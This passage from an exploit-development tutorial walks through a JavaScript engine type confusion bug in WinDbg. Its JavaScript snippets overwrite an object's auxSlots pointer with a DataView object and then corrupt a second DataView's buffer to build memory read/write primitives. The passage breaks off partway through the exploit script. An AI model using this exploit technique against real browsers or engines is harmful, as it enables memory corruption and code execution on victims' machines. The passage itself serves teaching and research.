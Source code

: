 ```javascript
// Corrupt obj->auxSlots with the address of the first DataView object
o.c = dataview1;
```

We know that by setting a value on `o.c` we will actually end up corrupting `obj->auxSlots` with the address of our first `DataView` object. Recalling the previous image, we know that `obj->auxSlots` is located at `0x12b252a52b0`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion40.png" alt="">

Let's set a hardware breakpoint to break whenever this address is written to at an 8-byte alignment.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion41.png" alt="">

Taking a look at the disassembly, it is clear to see how `SetSlotUnchecked` indexes the `auxSlots` array (or what it thinks is the `auxSlots` array) by computing an index into an array.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion42.png" alt="">

Let's take a look at the RCX register, which should be `obj->auxSlots` (located at `0x12b252a52b0`).

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion43.png" alt="">

However, we can see that the value is no longer the `auxSlots` array, but is actually a pointer to a `DataView` object! This means we have successfully overwritten `obj->auxSlots` with the address of our `dataview` `DataView` object!

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion44.png" alt="">

Now that our `o.c = dataview1` operation has completed, we know the next instruction will be as follows:

```javascript
// Corrupt dataview1->buffer with the address of the second DataView object
obj.h = dataview2;
```

Let's update our script to set our `print()` debug statement right before the `obj.h = dataview2` instruction and restart execution in WinDbg.

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
```
